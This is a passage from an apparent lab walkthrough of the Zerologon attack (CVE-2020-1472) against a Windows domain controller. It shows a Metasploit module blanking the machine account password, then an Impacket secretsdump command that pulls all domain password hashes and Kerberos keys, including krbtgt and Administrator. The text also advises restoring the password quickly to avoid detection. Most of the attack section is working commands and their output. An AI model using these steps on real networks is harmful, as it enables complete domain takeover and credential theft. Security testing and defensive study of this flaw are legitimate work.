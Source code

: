 As you can see, our Active Directory is vulnerable, so let's perform the attack to remove the machine account password.

<span style="color:yellow"><i class="fa fa-info-circle"></i></span>
NOTE: Removing the machine account password (setting the null password) will introduce an inconsistency between the machine password store at the AD and the local machine password stored in registry.\
This will break the active directory domain replication with other domain controllers and can have other undesired effects.\
To minimize the impact and avoid detection, it is important to restore the machine password as soon as possible to restore the consistency.
{: .notice--info}

Removing the machine account (setting the null password).
```shell
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > exploit
[*] Running module against 192.168.201.9

[*] 192.168.201.9: - Connecting to the endpoint mapper service...
[*] 192.168.201.9:49155 - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.201.9[49155] ...
[*] 192.168.201.9:49155 - Bound to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.201.9[49155] ...
[+] 192.168.201.9:49155 - Successfully authenticated
[+] 192.168.201.9:49155 - Successfully set the machine account (advictim2012r2$) password to: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 (empty)
[*] Auxiliary module execution completed
```
Now we can use the secretdump.py that comes with Impacket with the `-no-pass` option to pull the all the password hashes from the AD.

```shell
┌──(root💀coolhostname)-[~]
└─# python3 /usr/share/doc/python3-impacket/examples/secretsdump.py 'ADVICTIM2012R2$'@192.168.201.9 -no-pass -outputfile victim.com -user-status
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:41b3f9ac5278dae30d67b59e3b01383f::: (status=Enabled)
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: (status=Disabled)
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4e10b53bcd24af9db5f2f9cb302d3a94::: (status=Disabled)
ADVICTIM2012R2$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: (status=Enabled)
CAVICTIM2012R2$:1103:aad3b435b51404eeaad3b435b51404ee:9c1ffa33539e567196cfbaa923326d3a::: (status=Enabled)
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:484daca6d51e63a5332b6ce83e9d24389f9f95219118efc01dd69c4bee1a032e
krbtgt:aes128-cts-hmac-sha1-96:dbbdcef9cacf1c3509e47fef1b373634
krbtgt:des-cbc-md5:bfe0453e54585b43
ADVICTIM2012R2$:aes256-cts-hmac-sha1-96:6c4942b6eb4f1110745b39a50f77952c0e398235ed27f9c333b9753f801edd27
ADVICTIM2012R2$:aes128-cts-hmac-sha1-96:401d7736faf7f88f22667c3d32c08bee
ADVICTIM2012R2$:des-cbc-md5:89cb6876a4c84616
CAVICTIM2012R2$:aes256-cts-hmac-sha1-96:23c6b2e38221f5d84be025657a295a6026007e4c7a948f691f65ecf826750452
CAVICTIM2012R2$:aes128-cts-hmac-sha1-96:c96ad9db438b318dcf0168d4b2d2d86c
CAVICTIM2012R2$:des-cbc-md5:a79badf7ec9eb0cd
[*] Cleaning up...
```
Now take one of the user accounts and password hash, in our case administrator, to run another secretsdump to retrieve the machine account.\
Search for the entry `VICTIM\ADVICTIM2012R2$:plain_password_hex:` and copy the hexstring to be used to restore the machine account password.